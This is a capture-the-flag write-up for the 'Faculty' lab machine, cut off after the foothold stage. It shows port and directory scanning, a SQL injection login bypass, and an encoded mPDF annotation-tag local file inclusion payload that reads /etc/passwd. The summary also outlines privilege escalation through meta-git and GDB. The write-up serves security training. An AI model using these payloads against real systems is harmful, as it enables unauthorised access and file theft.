




# Faculty Writeup

## Summary

Our `nmap` scan only finds SSH and an nginx webserver on port `80`. We discover a login page to an application called "School Faculty Scheduling System," which we can bypass using a basic SQL injection. In the main application, we are able to generate pdfs of a table of data. By looking at the URL where the PDFs are served from and the actual PDF metadata, we learn that they are generated using [mPDF](https://github.com/mpdf/mpdf). We look at the requests that are sent when we click the PDF download button and see that we control the PDF content through a base64 encoded string. After a lot of digging, we find a [local file inclusion (LFI) exploit in mPDF](https://github.com/mpdf/mpdf/issues/356). We also are able to get the website to produce an erorr page that gives the full path to one of its PHP files. Using the LFI exploit, we get this file and obtain some credentials.

The credentials get us connect to the box via SSH and `sudo -l` shows that we can run [meta-git](https://www.npmjs.com/package/meta-git) as another user. We find [an exploit](https://hackerone.com/reports/728040) and move laterally to that other user. On the new user, we get the `user.txt` flag. We run [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and discover that we can now run GDB and that GDB has the `SYS_PTRACE` capability, so it can attached to processes running as `root`. We find a `python3` process, attach to it, and make a call to `system` giving us a reverse shell as root!

## Enumeration

### Nmap

First, let's scan for open ports using `nmap`. We can quickly scan for open ports and store them in a variable: `ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.169 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)`. Then, we can scan those specific ports in depth by running `nmap`'s built-in scripts: `nmap -p$ports -sC -sV 10.10.11.169`.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Pretty light `nmap` scan for this box. Only SSH and a `nginx` webserver.

Let's add the `faculty.htb` domain to `/etc/hosts`: `echo "10.10.11.169 faculty.htb" | sudo tee -a /etc/hosts`.

### Nginx (Port `80`)

Navigating to `http://faculty.htb` redirects to `http://faculty.htb/login.php`:


We try to brute force the required id number using burpsuite's intruder feature, but after trying a few hundred numbers with no luck we give up.

Let's brute force directories with `ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://faculty.htb/FUZZ`:

```
admin                   [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 31ms]
```
Going to the newly discovered `http://faculty.htb/admin` shows a login page:


Trying a classic SQL injection with a username of `admin' -- ` and password `anything` works ([MySQL Injection info](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) & [general list of SQL injection payloads](https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads))! We get access to an administrator interface:


Searching for vulnerabilities in this program finds [this list on ExpoitDB](https://www.exploit-db.com/search?q=School+Faculty+Scheduling+System).

Anyway, the "Faculty List" section contains the information we need:


```
ID       Name            Email              Contact
85662050 Blake, Claire G cblake@faculty.htb (763) 450-0121
30903070 James, Eric P   ejames@faculty.htb (702) 368-3689
63033226 Smith, John C   jsmith@faculty.htb (646) 559-9192
```

Now that we have emails and, more importantly, some ID numbers, we can try to get into the main page at `http://faculty.htb`, but going back to the main page just shows us a calendar. Logging out as `admin` and using an ID number does work, but doesn't seem to get us anywhere:


Interestingly, we can generate a PDF of the table. We get a pdf at `http://faculty.htb/mpdf/tmp/OKFEkR81dfJX73wmOhSsyV9r0D.pdf`. The `mpdf` in the URL indicates that this PDF was generated using [mpdf](https://mpdf.github.io/).



Going back to the PDF download button and clicking it with the Network tab open in Firefox's developer tools shows that the button makes a POST request to `/download.php`:



There is a `pdf` field submitted with the following data:

```
JTI1M0NoMSUyNTNFJTI1M0NhJTJCbmFtZSUyNTNEJTI1MjJ0b3AlMjUyMiUyNTNFJTI1M0MlMjUyRmElMjUzRWZhY3VsdHkuaHRiJTI1M0MlMjUyRmgxJTI1M0UlMjUzQ2gyJTI1M0VGYWN1bHRpZXMlMjUzQyUyNTJGaDIlMjUzRSUyNTNDdGFibGUlMjUzRSUyNTA5JTI1M0N0aGVhZCUyNTNFJTI1MDklMjUwOSUyNTNDdHIlMjUzRSUyNTA5JTI1MDklMjUwOSUyNTNDdGglMkJjbGFzcyUyNTNEJTI1MjJ0ZXh0LWNlbnRlciUyNTIyJTI1M0VJRCUyNTNDJTI1MkZ0aCUyNTNFJTI1MDklMjUwOSUyNTA5JTI1M0N0aCUyQmNsYXNzJTI1M0QlMjUyMnRleHQtY2VudGVyJTI1MjIlMjUzRU5hbWUlMjUzQyUyNTJGdGglMjUzRSUyNTA5JTI1MDklMjUwOSUyNTNDdGglMkJjbGFzcyUyNTNEJTI1MjJ0ZXh0LWNlbnRlciUyNTIyJTI1M0VFbWFpbCUyNTNDJTI1MkZ0aCUyNTNFJTI1MDklMjUwOSUyNTA5JTI1M0N0aCUyQmNsYXNzJTI1M0QlMjUyMnRleHQtY2VudGVyJTI1MjIlMjUzRUNvbnRhY3QlMjUzQyUyNTJGdGglMjUzRSUyNTNDJTI1MkZ0ciUyNTNFJTI1M0MlMjUyRnRoZWFkJTI1M0UlMjUzQ3Rib2R5JTI1M0UlMjUzQ3RyJTI1M0UlMjUzQ3RkJTJCY2xhc3MlMjUzRCUyNTIydGV4dC1jZW50ZXIlMjUyMiUyNTNFODU2NjIwNTAlMjUzQyUyNTJGdGQlMjUzRSUyNTNDdGQlMkJjbGFzcyUyNTNEJTI1MjJ0ZXh0LWNlbnRlciUyNTIyJTI1M0UlMjUzQ2IlMjUzRUJsYWtlJTI1MkMlMkJDbGFpcmUlMkJHJTI1M0MlMjUyRmIlMjUzRSUyNTNDJTI1MkZ0ZCUyNTNFJTI1M0N0ZCUyQmNsYXNzJTI1M0QlMjUyMnRleHQtY2VudGVyJTI1MjIlMjUzRSUyNTNDc21hbGwlMjUzRSUyNTNDYiUyNTNFY2JsYWtlJTI1NDBmYWN1bHR5Lmh0YiUyNTNDJTI1MkZiJTI1M0UlMjUzQyUyNTJGc21hbGwlMjUzRSUyNTNDJTI1MkZ0ZCUyNTNFJTJCJTI1M0N0ZCUyQmNsYXNzJTI1M0QlMjUyMnRleHQtY2VudGVyJTI1MjIlMjUzRSUyNTNDc21hbGwlMjUzRSUyNTNDYiUyNTNFJTI1Mjg3NjMlMjUyOSUyQjQ1MC0wMTIxJTI1M0MlMjUyRmIlMjUzRSUyNTNDJTI1MkZzbWFsbCUyNTNFJTI1M0MlMjUyRnRkJTI1M0UlMjUzQyUyNTJGdHIlMjUzRSUyNTNDdHIlMjUzRSUyNTNDdGQlMkJjbGFzcyUyNTNEJTI1MjJ0ZXh0LWNlbnRlciUyNTIyJTI1M0UzMDkwMzA3MCUyNTNDJTI1MkZ0ZCUyNTNFJTI1M0N0ZCUyQmNsYXNzJTI1M0QlMjUyMnRleHQtY2VudGVyJTI1MjIlMjUzRSUyNTNDYiUyNTNFSmFtZXMlMjUyQyUyQkVyaWMlMkJQJTI1M0MlMjUyRmIlMjUzRSUyNTNDJTI1MkZ0ZCUyNTNFJTI1M0N0ZCUyQmNsYXNzJTI1M0QlMjUyMnRleHQtY2VudGVyJTI1MjIlMjUzRSUyNTNDc21hbGwlMjUzRSUyNTNDYiUyNTNFZWphbWVzJTI1NDBmYWN1bHR5Lmh0YiUyNTNDJTI1MkZiJTI1M0UlMjUzQyUyNTJGc21hbGwlMjUzRSUyNTNDJTI1MkZ0ZCUyNTNFJTJCJTI1M0N0ZCUyQmNsYXNzJTI1M0QlMjUyMnRleHQtY2VudGVyJTI1MjIlMjUzRSUyNTNDc21hbGwlMjUzRSUyNTNDYiUyNTNFJTI1Mjg3MDIlMjUyOSUyQjM2OC0zNjg5JTI1M0MlMjUyRmIlMjUzRSUyNTNDJTI1MkZzbWFsbCUyNTNFJTI1M0MlMjUyRnRkJTI1M0UlMjUzQyUyNTJGdHIlMjUzRSUyNTNDdHIlMjUzRSUyNTNDdGQlMkJjbGFzcyUyNTNEJTI1MjJ0ZXh0LWNlbnRlciUyNTIyJTI1M0U2MzAzMzIyNiUyNTNDJTI1MkZ0ZCUyNTNFJTI1M0N0ZCUyQmNsYXNzJTI1M0QlMjUyMnRleHQtY2VudGVyJTI1MjIlMjUzRSUyNTNDYiUyNTNFU21pdGglMjUyQyUyQkpvaG4lMkJDJTI1M0MlMjUyRmIlMjUzRSUyNTNDJTI1MkZ0ZCUyNTNFJTI1M0N0ZCUyQmNsYXNzJTI1M0QlMjUyMnRleHQtY2VudGVyJTI1MjIlMjUzRSUyNTNDc21hbGwlMjUzRSUyNTNDYiUyNTNFanNtaXRoJTI1NDBmYWN1bHR5Lmh0YiUyNTNDJTI1MkZiJTI1M0UlMjUzQyUyNTJGc21hbGwlMjUzRSUyNTNDJTI1MkZ0ZCUyNTNFJTJCJTI1M0N0ZCUyQmNsYXNzJTI1M0QlMjUyMnRleHQtY2VudGVyJTI1MjIlMjUzRSUyNTNDc21hbGwlMjUzRSUyNTNDYiUyNTNFJTI1Mjg2NDYlMjUyOSUyQjU1OS05MTkyJTI1M0MlMjUyRmIlMjUzRSUyNTNDJTI1MkZzbWFsbCUyNTNFJTI1M0MlMjUyRnRkJTI1M0UlMjUzQyUyNTJGdHIlMjUzRSUyNTNDJTI1MkZ0Ym9ieSUyNTNFJTI1M0MlMjUyRnRhYmxlJTI1M0U
```

Pasting it into [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)URL_Decode()URL_Decode()&input=SlRJMU0wTm9NU1V5TlRORkpUSTFNME5oSlRKQ2JtRnRaU1V5TlRORUpUSTFNakowYjNBbE1qVXlNaVV5TlRORkpUSTFNME1sTWpVeVJtRWxNalV6UldaaFkzVnNkSGt1YUhSaUpUSTFNME1sTWpVeVJtZ3hKVEkxTTBVbE1qVXpRMmd5SlRJMU0wVkdZV04xYkhScFpYTWxNalV6UXlVeU5USkdhRElsTWpVelJTVXlOVE5EZEdGaWJHVWxNalV6UlNVeU5UQTVKVEkxTTBOMGFHVmhaQ1V5TlRORkpUSTFNRGtsTWpVd09TVXlOVE5EZEhJbE1qVXpSU1V5TlRBNUpUSTFNRGtsTWpVd09TVXlOVE5EZEdnbE1rSmpiR0Z6Y3lVeU5UTkVKVEkxTWpKMFpYaDBMV05sYm5SbGNpVXlOVEl5SlRJMU0wVkpSQ1V5TlROREpUSTFNa1owYUNVeU5UTkZKVEkxTURrbE1qVXdPU1V5TlRBNUpUSTFNME4wYUNVeVFtTnNZWE56SlRJMU0wUWxNalV5TW5SbGVIUXRZMlZ1ZEdWeUpUSTFNaklsTWpVelJVNWhiV1VsTWpVelF5VXlOVEpHZEdnbE1qVXpSU1V5TlRBNUpUSTFNRGtsTWpVd09TVXlOVE5EZEdnbE1rSmpiR0Z6Y3lVeU5UTkVKVEkxTWpKMFpYaDBMV05sYm5SbGNpVXlOVEl5SlRJMU0wVkZiV0ZwYkNVeU5UTkRKVEkxTWtaMGFDVXlOVE5GSlRJMU1Ea2xNalV3T1NVeU5UQTVKVEkxTTBOMGFDVXlRbU5zWVhOekpUSTFNMFFsTWpVeU1uUmxlSFF0WTJWdWRHVnlKVEkxTWpJbE1qVXpSVU52Ym5SaFkzUWxNalV6UXlVeU5USkdkR2dsTWpVelJTVXlOVE5ESlRJMU1rWjBjaVV5TlRORkpUSTFNME1sTWpVeVJuUm9aV0ZrSlRJMU0wVWxNalV6UTNSaWIyUjVKVEkxTTBVbE1qVXpRM1J5SlRJMU0wVWxNalV6UTNSa0pUSkNZMnhoYzNNbE1qVXpSQ1V5TlRJeWRHVjRkQzFqWlc1MFpYSWxNalV5TWlVeU5UTkZPRFUyTmpJd05UQWxNalV6UXlVeU5USkdkR1FsTWpVelJTVXlOVE5EZEdRbE1rSmpiR0Z6Y3lVeU5UTkVKVEkxTWpKMFpYaDBMV05sYm5SbGNpVXlOVEl5SlRJMU0wVWxNalV6UTJJbE1qVXpSVUpzWVd0bEpUSTFNa01sTWtKRGJHRnBjbVVsTWtKSEpUSTFNME1sTWpVeVJtSWxNalV6UlNVeU5UTkRKVEkxTWtaMFpDVXlOVE5GSlRJMU0wTjBaQ1V5UW1Oc1lYTnpKVEkxTTBRbE1qVXlNblJsZUhRdFkyVnVkR1Z5SlRJMU1qSWxNalV6UlNVeU5UTkRjMjFoYkd3bE1qVXpSU1V5TlRORFlpVXlOVE5GWTJKc1lXdGxKVEkxTkRCbVlXTjFiSFI1TG1oMFlpVXlOVE5ESlRJMU1rWmlKVEkxTTBVbE1qVXpReVV5TlRKR2MyMWhiR3dsTWpVelJTVXlOVE5ESlRJMU1rWjBaQ1V5TlRORkpUSkNKVEkxTTBOMFpDVXlRbU5zWVhOekpUSTFNMFFsTWpVeU1uUmxlSFF0WTJWdWRHVnlKVEkxTWpJbE1qVXpSU1V5TlRORGMyMWhiR3dsTWpVelJTVXlOVE5EWWlVeU5UTkZKVEkxTWpnM05qTWxNalV5T1NVeVFqUTFNQzB3TVRJeEpUSTFNME1sTWpVeVJtSWxNalV6UlNVeU5UTkRKVEkxTWtaemJXRnNiQ1V5TlRORkpUSTFNME1sTWpVeVJuUmtKVEkxTTBVbE1qVXpReVV5TlRKR2RISWxNalV6UlNVeU5UTkRkSElsTWpVelJTVXlOVE5EZEdRbE1rSmpiR0Z6Y3lVeU5UTkVKVEkxTWpKMFpYaDBMV05sYm5SbGNpVXlOVEl5SlRJMU0wVXpNRGt3TXpBM01DVXlOVE5ESlRJMU1rWjBaQ1V5TlRORkpUSTFNME4wWkNVeVFtTnNZWE56SlRJMU0wUWxNalV5TW5SbGVIUXRZMlZ1ZEdWeUpUSTFNaklsTWpVelJTVXlOVE5EWWlVeU5UTkZTbUZ0WlhNbE1qVXlReVV5UWtWeWFXTWxNa0pRSlRJMU0wTWxNalV5Um1JbE1qVXpSU1V5TlROREpUSTFNa1owWkNVeU5UTkZKVEkxTTBOMFpDVXlRbU5zWVhOekpUSTFNMFFsTWpVeU1uUmxlSFF0WTJWdWRHVnlKVEkxTWpJbE1qVXpSU1V5TlRORGMyMWhiR3dsTWpVelJTVXlOVE5EWWlVeU5UTkZaV3BoYldWekpUSTFOREJtWVdOMWJIUjVMbWgwWWlVeU5UTkRKVEkxTWtaaUpUSTFNMFVsTWpVelF5VXlOVEpHYzIxaGJHd2xNalV6UlNVeU5UTkRKVEkxTWtaMFpDVXlOVE5GSlRKQ0pUSTFNME4wWkNVeVFtTnNZWE56SlRJMU0wUWxNalV5TW5SbGVIUXRZMlZ1ZEdWeUpUSTFNaklsTWpVelJTVXlOVE5EYzIxaGJHd2xNalV6UlNVeU5UTkRZaVV5TlRORkpUSTFNamczTURJbE1qVXlPU1V5UWpNMk9DMHpOamc1SlRJMU0wTWxNalV5Um1JbE1qVXpSU1V5TlROREpUSTFNa1p6YldGc2JDVXlOVE5GSlRJMU0wTWxNalV5Um5Sa0pUSTFNMFVsTWpVelF5VXlOVEpHZEhJbE1qVXpSU1V5TlRORGRISWxNalV6UlNVeU5UTkRkR1FsTWtKamJHRnpjeVV5TlRORUpUSTFNakowWlhoMExXTmxiblJsY2lVeU5USXlKVEkxTTBVMk16QXpNekl5TmlVeU5UTkRKVEkxTWtaMFpDVXlOVE5GSlRJMU0wTjBaQ1V5UW1Oc1lYTnpKVEkxTTBRbE1qVXlNblJsZUhRdFkyVnVkR1Z5SlRJMU1qSWxNalV6UlNVeU5UTkRZaVV5TlRORlUyMXBkR2dsTWpVeVF5VXlRa3B2YUc0bE1rSkRKVEkxTTBNbE1qVXlSbUlsTWpVelJTVXlOVE5ESlRJMU1rWjBaQ1V5TlRORkpUSTFNME4wWkNVeVFtTnNZWE56SlRJMU0wUWxNalV5TW5SbGVIUXRZMlZ1ZEdWeUpUSTFNaklsTWpVelJTVXlOVE5EYzIxaGJHd2xNalV6UlNVeU5UTkRZaVV5TlRORmFuTnRhWFJvSlRJMU5EQm1ZV04xYkhSNUxtaDBZaVV5TlROREpUSTFNa1ppSlRJMU0wVWxNalV6UXlVeU5USkdjMjFoYkd3bE1qVXpSU1V5TlROREpUSTFNa1owWkNVeU5UTkZKVEpDSlRJMU0wTjBaQ1V5UW1Oc1lYTnpKVEkxTTBRbE1qVXlNblJsZUhRdFkyVnVkR1Z5SlRJMU1qSWxNalV6UlNVeU5UTkRjMjFoYkd3bE1qVXpSU1V5TlRORFlpVXlOVE5GSlRJMU1qZzJORFlsTWpVeU9TVXlRalUxT1MwNU1Ua3lKVEkxTTBNbE1qVXlSbUlsTWpVelJTVXlOVE5ESlRJMU1rWnpiV0ZzYkNVeU5UTkZKVEkxTTBNbE1qVXlSblJrSlRJMU0wVWxNalV6UXlVeU5USkdkSElsTWpVelJTVXlOVE5ESlRJMU1rWjBZbTlpZVNVeU5UTkZKVEkxTTBNbE1qVXlSblJoWW14bEpUSTFNMFU) and clicking the magic button three times (base64 decode, url decode, url decode again) produces the following:

```html
<h1><a name="top"></a>faculty.htb</h1><h2>Faculties</h2><table>	<thead>		<tr>			<th class="text-center">ID</th>			<th class="text-center">Name</th>			<th class="text-center">Email</th>			<th class="text-center">Contact</th></tr></thead><tbody><tr><td class="text-center">85662050</td><td class="text-center"><b>Blake, Claire G</b></td><td class="text-center"><small><b>cblake@faculty.htb</b></small></td> <td class="text-center"><small><b>(763) 450-0121</b></small></td></tr><tr><td class="text-center">30903070</td><td class="text-center"><b>James, Eric P</b></td><td class="text-center"><small><b>ejames@faculty.htb</b></small></td> <td class="text-center"><small><b>(702) 368-3689</b></small></td></tr><tr><td class="text-center">63033226</td><td class="text-center"><b>Smith, John C</b></td><td class="text-center"><small><b>jsmith@faculty.htb</b></small></td> <td class="text-center"><small><b>(646) 559-9192</b></small></td></tr></tboby></table>
```

This looks like the HTML content from the page. So, we have control over the content sent to `mpdf`. Let's try to find an exploit.

If we download the produced PDF and use `exiftool` like so `exiftool OKOPoRnvSh3lM7xqe2iLIW1GJU.pdf`, we get `mpdf`'s version number:

```
ExifTool Version Number         : 12.44
File Name                       : OKOPoRnvSh3lM7xqe2iLIW1GJU.pdf
Directory                       : .
File Size                       : 1781 bytes
File Modification Date/Time     : 2022:07:27 19:49:14-04:00
File Access Date/Time           : 2022:07:27 19:49:18-04:00
File Inode Change Date/Time     : 2022:07:27 19:49:17-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Page Layout                     : OneColumn
Producer                        : mPDF 6.0
Create Date                     : 2022:07:28 00:49:06+01:00
Modify Date                     : 2022:07:28 00:49:06+01:00
```

Searching for "mpdf 6.0 exploit" finds [Insecure PHP deserialization through phar:// wrapper](https://github.com/mpdf/mpdf/issues/949) which seems a little promising, [CVE-2018-19047](https://nvd.nist.gov/vuln/detail/CVE-2018-19047) ([GitHub issue](https://github.com/mpdf/mpdf/issues/867)) that probably won't help, and [phar:// deserialization and weak randomness of temporary file name may lead to RCE](https://github.com/mpdf/mpdf/issues/1381). The first and last seem like they might work if we knew if and where `unserialize` was called on our data.

Finding the exploit was kind of difficult in this case. Looking at the [changelog for mpdf](https://github.com/mpdf/mpdf/blob/development/CHANGELOG.md) for version `6.1.0` doesn't seem interesting, but in version `7.0.0` this line is interesting: `Security: Embedded files via <annotation> custom tag must be explicitly allowed via allowAnnotationFiles configuration key.` Searching for "mpdf embedded files annotation tag" finds [Make annotation tags disabled by default](https://github.com/mpdf/mpdf/issues/356) ([mpdf annotation tag documentation](https://mpdf.github.io/reference/html-control-tags/annotation.html)).

Additionally, searching for `"mpdf" exploit` on Google reveals this article on the second page: [Local file inclusion at IKEA.com](https://medium.com/@jonathanbouman/local-file-inclusion-at-ikea-com-e695ed64d82f).

## Foothold

The proof-of-concept exploit is as follows:

```xml
<annotation file="/etc/passwd" content="/etc/passwd"  icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

Let's use burp to send this as the PDF to be generated instead of the table. First, we need to encode this in the reverse order that CyberChef decoded the PDF originally. So, with [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode(false)URL_Encode(false)To_Base64('A-Za-z0-9%2B/%3D')&input=PGFubm90YXRpb24gZmlsZT0iL2V0Yy9wYXNzd2QiIGNvbnRlbnQ9Ii9ldGMvcGFzc3dkIiAgaWNvbj0iR3JhcGgiIHRpdGxlPSJBdHRhY2hlZCBGaWxlOiAvZXRjL3Bhc3N3ZCIgcG9zLXg9IjE5NSIgLz4) we URL encode twice and then base64 encode:

```
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyL2V0Yy9wYXNzd2QlMjUyMiUyNTIwY29udGVudD0lMjUyMi9ldGMvcGFzc3dkJTI1MjIlMjUyMCUyNTIwaWNvbj0lMjUyMkdyYXBoJTI1MjIlMjUyMHRpdGxlPSUyNTIyQXR0YWNoZWQlMjUyMEZpbGU6JTI1MjAvZXRjL3Bhc3N3ZCUyNTIyJTI1MjBwb3MteD0lMjUyMjE5NSUyNTIyJTI1MjAvJTI1M0U=
```

We can intercept and send the request using burp to get a PDF url/file:


Then, all we have to do is open up the sidebar in Firefox's pdf.js viewer and look at the attached files. Or you can mouse over the small dot in the rop right and click the file name:


```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:112:117:MySQL Server,,,:/nonexistent:/bin/false
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
postfix:x:113:119::/var/spool/postfix:/usr/sbin/nologin
